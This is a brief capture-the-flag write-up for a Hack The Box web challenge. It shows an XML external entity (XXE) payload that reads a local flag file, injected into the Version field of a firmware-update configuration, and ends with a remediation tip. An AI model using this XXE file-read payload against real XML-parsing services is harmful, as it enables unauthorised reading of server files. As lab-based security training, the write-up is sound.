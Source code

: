 This HTB challenge was a website with a page containing a configuration file for firmware updates as can be seen below.
This was the most promising entry point through
- Command Injection
- Reverse Shell Spawning, and
- XXE
  
## Solution
Since there is no logic to execute commands, command injection and reverse shell does not work. 
The trick, the trick therefore is to use XXE and return the file information in the Version parameter since it is the only one that is reflected back to the user.
The payload is below

```
<!--?xml version="1.0" ?-->
<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Add the above to the existing configuration file and change only the  Version parameter
```
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version> # This is the injection point
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```
## Remediation
- Do not try to sanitise user input. Instead, block DOCTYPE and External Entities. If the parser cannot process DOCTYPE and External Entities, there is no XXE vlnerability.
  
<img width="1190" height="1065" alt="Jailbreak2" src="https://github.com/user-attachments/assets/7e5da865-6f41-4d21-aec0-28c90f6e9cee" />
<img width="1205" height="1073" alt="Jailbreak3" src="https://github.com/user-attachments/assets/f0fd712b-55d7-42e8-8faf-ca4794f8bb33" />



